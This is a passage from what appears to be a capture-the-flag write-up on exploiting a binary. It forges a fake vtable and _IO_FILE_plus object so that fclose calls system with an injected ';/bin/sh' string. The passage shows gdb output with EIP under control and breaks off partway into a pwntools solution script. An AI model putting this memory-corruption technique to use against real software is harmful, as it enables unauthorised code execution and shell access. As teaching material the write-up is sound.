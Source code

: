 We can overwrite this `vptr` with the address of a fake `vtable` that we craft.

In the fake `vtable`, we will populate it with an address that we want to control -- ideally, `system@libc`.

However, let's first test it by filling the `vtable`, with `A`'s.
When we do this, we successfully get a crash and control of EIP.
{% highlight bash %}
gdb-peda$ c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x804b2e0 ('A' <repeats 12 times>, 'C' <repeats 50 times>)
EBX: 0xf76f3000 --> 0x1afdb0 
ECX: 0x0 
EDX: 0x8000 
ESI: 0x804b290 --> 0xffffff7f 
EDI: 0xffffffff 
EBP: 0xffd7fb68 --> 0xffd7fba8 --> 0xffd7fbf8 --> 0x0 
ESP: 0xffd7fb3c --> 0xf76604ce (<fclose+78>:	mov    eax,DWORD PTR [esi+0x24])
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xffd7fb3c --> 0xf76604ce (<fclose+78>:	mov    eax,DWORD PTR [esi+0x24])
0004| 0xffd7fb40 --> 0x804b290 --> 0xffffff7f 
0008| 0xffd7fb44 --> 0x0 
0012| 0xffd7fb48 --> 0x0 
0016| 0xffd7fb4c --> 0x0 
0020| 0xffd7fb50 --> 0xf76f3000 --> 0x1afdb0 
0024| 0xffd7fb54 --> 0xf76f3000 --> 0x1afdb0 
0028| 0xffd7fb58 --> 0xf766048b (<fclose+11>:	add    ebx,0x92b75)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
{% endhighlight %}

Notice that the first argument passed into the function is `0x804b290`, which is the starting address of our fake `_IO_FILE_plus` object!
 
Since we also control the data at this address, we can simply inject `;/bin/sh\0` into the beginning of our fake object to call `system("<junk>;/bin/sh\0");` and obtain a shell!

Putting everything together, we get a shell using the following exploit.

## Solution
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def openfile(name):
    r.sendline("1")
    r.recvuntil(" :")
    r.sendline(name)
    r.recvuntil(" :")

def readfile():
    r.sendline("2")
    r.recvuntil(" :")

def writescreen():
    r.sendline("3")